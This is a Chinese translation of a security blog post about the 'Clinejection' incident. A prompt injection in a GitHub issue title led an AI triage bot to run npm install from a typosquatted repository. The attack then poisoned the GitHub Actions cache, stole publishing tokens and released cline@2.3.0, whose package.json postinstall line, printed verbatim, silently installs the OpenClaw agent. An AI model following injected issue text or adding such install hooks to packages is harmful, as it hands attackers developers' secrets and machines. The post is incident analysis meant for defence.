

> **总结**：本文讲述了名为 “Clinejection” 的供应链攻击如何通过一条精心构造的 GitHub issue 标题，诱使 AI 自动化工具执行 `npm install`，进而触发 postinstall 生命周期脚本，在约 4,000 台开发者机器上悄然安装了另一个 AI 代理 OpenClaw。文章分解了完整链路、为何现有控制手段未能阻止、受影响方的修复措施，以及对部署 AI agent 到 CI/CD 的深刻架构启示。
> 
> 读者将了解到攻击的五个步骤：提示注入 (prompt injection)、AI 执行任意代码、缓存中毒、凭据窃取和恶意发布；并能据此评估自己团队在自动化 agent、令牌治理、以及操作级别审计方面的防护缺口。



在 2026-02-17，`cline@2.3.0` 被发布到 npm。CLI 的二进制文件与之前版本字节相同，唯一的改动是在 `package.json` 中增加了一行：

```json
"postinstall": "npm install -g openclaw@latest"
```

在接下来约八小时内，凡是安装或更新 Cline 的开发者，都被无感地全球安装了 OpenClaw —— 一个具有完整系统访问权限的独立 AI 代理。大约有 4,000 次下载发生在包被下架之前1。

关键问题不在于 payload 本身，而在于攻击者如何获取用于发布 npm 包的 token：通过向一个 AI 驱动的问题分流 (issue triage) 工作流注入提示。该工作流使用了 Anthropic 的 `claude-code-action`，配置为 `allowed_non_write_users: "*"`，意味着任何 GitHub 用户都可以通过打开 issue 触发它。issue 标题未经净化地以 `${{ github.event.issue.title }}` 的形式插入到 Claude 的 prompt 中，导致提示注入得以发生。

## 完整链路

下面是攻击的五个步骤：

1. 提示注入：攻击者创建了一个看似性能报告的 issue 标题，内嵌了一条安装指定 GitHub 仓库包的指令。
2. AI 机器人执行任意代码：Claude 将注入的指令当作合法指令解析并执行了 `npm install`，指向攻击者控制的 typosquatted 仓库（如 `glthub-actions/cline`，故意缺少字符以混淆）。该仓库的 `package.json` 包含一个 `preinstall` 脚本，用以获取并执行远程 shell 脚本。
3. 缓存中毒：该 shell 脚本部署了 Cacheract（一个用于污染 GitHub Actions 缓存的工具），通过向缓存填充 >10GB 的垃圾数据，触发 GitHub 的 LRU 淘汰策略，从而使合法的缓存条目被逐出；被污染的条目则被精心构造以匹配 Cline 的夜间发布工作流所使用的缓存 key。
4. 凭据窃取：当夜间发布工作流运行并从缓存还原 `node_modules` 时，恢复的是被篡改的版本。该发布工作流持有 `NPM_RELEASE_TOKEN`、`VSCE_PAT`（VS Code Marketplace）和 `OVSX_PAT`（OpenVSX）；三者均被外泄并被攻击者窃取3。
5. 恶意发布：攻击者使用被窃取的 npm token 发布了 `cline@2.3.0`，并在 postinstall 钩子中触发了 OpenClaw 的安装。受影响的版本在线约八小时后被下架，StepSecurity 的自动监控在发布后约 14 分钟检测到异常并报告1。

## 错误的令牌轮换使情况更糟

安全研究员 Adnan Khan 在 2025 年 12 月发现了这个链路，并于 2026-01-01 通过 GitHub Security Advisory 报告了问题。他在五周内多次跟进，但未得到响应3。当 Khan 于 2026-02-09 公开披露后，Cline 在 30 分钟内移除了 AI 分流工作流，并在次日开始进行凭据轮换。

然而，轮换过程并不完善：团队删除了错误的 token，导致被暴露的 token 一度仍然有效。他们在 2 月 11 日发现并重新轮换，但攻击者已在此之前窃取到凭据，并利用它发布了被篡改的 `cline` 版本。

值得注意的是，Khan 并不是攻击者；另一个不明身份的行为者在 Khan 的测试仓库找到概念性 PoC 并将其武器化，直接对 Cline 发动攻击3。

## 新的模式：AI 安装 AI

这一攻击链的新颖之处不在于每个单独的漏洞（提示注入、缓存中毒、凭据窃取等都已被文档化），而在于最终结果：一个 AI 工具在开发者机器上悄然引导并安装了另一个 AI 代理。

这引发了供应链中的递归信任问题：开发者信任工具 A（Cline），工具 A 被妥协后安装了工具 B（OpenClaw）。工具 B 拥有独立的能力——执行 shell、读取凭据、安装为持久化守护进程——而这些能力超出了开发者对工具 A 的原始信任评估。

OpenClaw 安装后能够读取 `~/.openclaw/` 中的凭据，通过其 Gateway API 执行 shell 命令，并将自身注册为开机自启的持久化守护进程。尽管有人认为该 payload 更接近概念验证而非完全武器化，但机制本身足以令人担忧：下一次攻击可能不是 PoC，而是真正的恶意代码。

这个问题在本质上有点类似于“混淆代理（confused deputy）”问题：开发者授权 Cline 代表自己执行操作，而被妥协的 Cline 又将该权限委派给一个未经过评估、未被配置、且未经同意的代理。

## 为什么现有控制没能阻止这一攻击

- `npm audit`：postinstall 脚本安装的是一个合法且非恶意的包（OpenClaw），传统的恶意软件检测无法识别。
- 代码审查：CLI 二进制与之前版本字节一致，仅 `package.json` 改动一行。专注二进制差异的自动化差异检测会漏掉这一类改动。
- 溯源证明：Cline 在当时并未采用基于 OIDC 的 npm 溯源（provenance），被窃取的 token 可以在没有溯源元数据的情况下发布，StepSecurity 因此把这作为异常标记1。
- 权限提示：安装发生在 `npm install` 的 postinstall 钩子中。没有 AI 编程工具会在依赖的生命周期脚本运行前向用户弹出明确的同意提示；這個操作對用戶而言是不可見的。

攻击利用了开发者认为自己在安装某个版本的 Cline 与实际执行的生命周期脚本之间的差距——后者有能力执行任意操作并传导到其传递依赖。

## Cline 事后变动

Cline 的事后报告列出若干修复措施：

- 在处理凭据的工作流中淘汰 GitHub Actions 缓存的使用
- 采用 OIDC 溯源证明（provenance）用于 npm 发布，移除长期有效的 token 风险
- 为凭据轮换增加验证要求
- 着手建立带 SLA 的正式漏洞披露流程
- 委托第三方对 CI/CD 基础设施进行安全审计

这些改进非常有意义：尤其是 OIDC 的迁移，可以阻止攻击者仅凭窃取 token 即完成发布——当溯源证明要求特定 GitHub Actions 工作流的加密证明时，被窃取的 token 将无法用于伪造证明。

## 架构层面的教训

Clinejection 是一个供应链攻击，但同时也是代理（agent）安全问题。攻击入口是自然语言（issue 标题），AI 机器人把不受信任的文本当成指令并以 CI 环境的权限执行它。

这是与我们之前讨论过的 MCP 工具中毒与 agent skill 注册表风险同源的模式：不受信任的输入到达代理，代理据此采取行动，而没人对这些操作进行先验评估。

不同之处在于，这次代理并非某开发者本地的编码助手，而是一个对每一个新 issue 都会触发的自动化 CI 工作流，并且具有 shell 访问与缓存凭据。其影响面是整个发布管道，而非单个开发者机器。

每个在 CI/CD 中部署 AI agent 的团队（用于 issue 分流、代码审查、自动化测试或其他工作流）都存在这种风险：代理处理不受信任的输入，且有权限访问秘密（token、密钥）。关键问题在于，是否存在任何机制在代理尝试执行操作前对该操作进行评估。

在操作级别使用系统调用（syscall）拦截可以捕获这类攻击：当 AI 分流机器人尝试从一个异常仓库运行 `npm install` 时，操作会在执行前根据策略被评估；当生命周期脚本试图向外部主机外泄凭据时，外发流量会被阻断。

grith 的产品即是为捕获这类问题而设计：它在 OS 层拦截每一次文件读取、shell 命令与网络请求，并通过多过滤器策略引擎对其评分，阻断危险操作，同时将每一次决策记录到结构化审计轨迹中，提供合规就绪的报告。

---

> 本文翻译自：[A GitHub Issue Title Compromised 4,000 Developer Machines](https://grith.ai/blog/clinejection-when-your-ai-tool-installs-another)
